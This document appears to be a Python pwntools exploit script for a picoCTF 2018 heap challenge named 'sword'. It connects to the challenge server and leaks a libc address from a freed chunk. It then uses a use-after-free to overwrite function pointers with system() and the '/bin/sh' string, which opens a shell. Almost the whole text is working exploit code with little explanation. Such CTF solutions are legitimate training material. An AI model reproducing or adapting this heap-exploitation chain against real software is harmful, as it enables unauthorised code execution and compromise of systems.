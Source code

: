 ```python

def destroy(index):
    wait_prompt()
    echo("4")
    echo(str(index))

def harden(index, namelen, name):
    wait_prompt()
    echo("5")
    echo(str(index))
    resp = echo(str(namelen))
    if not resp.startswith("The name is too long."):
        echo(name)
        echo("-1") # -1 is the only good answer to weight!

def show(index):
    wait_prompt()
    echo("3")
    echo(str(index))
    _ = p.recvuntil("The name is ")
    name = "".join(map(chr, p.recvline(keepends=False)))
    print("".join(map(chr,_)) + name)
    return name

def equip(index):
    wait_prompt()
    echo("6")
    echo(str(index))

lib = ELF("libc.so.6")
libc_offset = 0x3c4b78 # unsorted bin "chunk header"
system_offset = lib.symbols["system"]
binsh_offset = next(lib.search(b'/bin/sh\0'))

#p = process(["ltrace", "-o", "trace", "-e", "malloc+printf+free+realloc+memcpy", "./sword"], env={"LD_PRELOAD": "noalarm.so"})
#p = process(["ltrace", "-o", "trace", "-e", "malloc+printf+free+realloc+memcpy", "./sword"])
#p = process("./sword")
#p = gdb.debug("./sword", "break main\ncontinue\n\nbreak 264\ncall alarm(0)\nd 2\nbreak 158\nbreak 177\ncontinue\n")
p = remote("2018shell.picoctf.com", 10491)

forge() #0
harden(0, 135, "abc") # name is large enough to be a small (not fast) chunk
forge() #1 - allocate new chunk - moves the wilderness
destroy(0) # frees sword and name

forge() # 0 - allocates a sword, reusing the chunk at the top of the fastbin (LIFO)
addr = parse(show(0))

print("LEAKED LIBC ADDR: 0x%08x" % addr)
libc_base = addr - libc_offset
print("LIBC BASE ADDR: 0x%08x" % libc_base)

binsh = libc_base + binsh_offset
print("\"/bin/sh\" string: 0x%08x" % binsh)
system = libc_base + system_offset
print("system(): 0x%08x" % system)

harden(0, 300, "") # too large, frees sword #0, but still marked as in-use
harden(1, 24, b"U"*8 + p64(binsh) + p64(system))
equip(0)

```